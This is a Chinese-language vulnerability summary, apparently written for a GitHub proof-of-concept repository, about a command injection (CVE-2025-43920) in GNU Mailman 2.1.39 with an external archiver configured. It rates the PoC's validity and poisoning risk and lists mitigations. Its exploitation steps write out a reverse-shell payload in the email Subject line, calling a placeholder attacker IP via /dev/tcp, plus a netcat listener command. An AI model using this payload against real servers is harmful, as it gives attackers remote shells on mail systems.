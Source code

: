 ## CVE-2025-43920-GNU Mailman-命令注入

**漏洞编号:** CVE-2025-43920

**漏洞类型:** 命令注入

**影响应用:** GNU Mailman

**危害等级:** 中危，可能导致远程代码执行

**影响版本:** 2.1.39

**利用条件:** 需要目标Mailman列表配置了外部存档器（PUBLIC_EXTERNAL_ARCHIVER 或 PRIVATE_EXTERNAL_ARCHIVER）。攻击者需要能够向目标列表发送邮件。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2025-43920是GNU Mailman 2.1.39版本中的一个命令注入漏洞。该漏洞源于在处理邮件主题时，未对特殊字符进行充分的过滤。如果Mailman配置了外部归档器（`PUBLIC_EXTERNAL_ARCHIVER`或`PRIVATE_EXTERNAL_ARCHIVER`），攻击者可以通过在邮件主题中插入shell元字符，例如`;`、`&`或`|`，来执行任意操作系统命令。 

**有效性：**
根据漏洞库信息、搜索引擎结果和提供的POC代码，该漏洞的POC是有效的。搜索引擎结果中也提到了该漏洞的存在以及github上的POC。

**投毒风险：**
该README.md文件本身不太可能包含任何投毒代码。其目的在于描述漏洞和提供利用方法。虽然存在远程执行代码的风险，但这不是传统的“投毒”。投毒风险评估较低，大约5%，主要是因为可能存在一些未知的后门或者恶意脚本，但概率较小。

**利用方式：**
1.  **确定目标：** 找到运行GNU Mailman 2.1.39并且配置了外部存档器的系统。
2.  **发送恶意邮件：** 构造一封包含恶意主题的邮件。例如，`Subject: ;bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1`。将`ATTACKER_IP`替换为攻击者的IP地址和端口。
3.  **监听连接：** 在攻击者的服务器上设置一个监听器（例如，使用netcat：`nc -lvnp 4444`）。
4.  **执行命令：** 当Mailman处理包含恶意主题的邮件时，外部存档器将执行注入的命令，从而在攻击者的服务器上建立一个反向shell。

**缓解措施（POC中也提到了）：**
*   禁用外部存档器：将`PUBLIC_EXTERNAL_ARCHIVER`和`PRIVATE_EXTERNAL_ARCHIVER`设置为`None`。
*   升级到Mailman 3.x：Mailman 3.x修复了此漏洞并提供了更好的输入验证。
*   限制订阅：限制邮件列表的订阅者为可信用户，以减少攻击面。

**项目地址:** [0NYX-MY7H/CVE-2025-43920](https://github.com/0NYX-MY7H/CVE-2025-43920)

**漏洞详情:** [CVE-2025-43920](https://nvd.nist.gov/vuln/detail/CVE-2025-43920)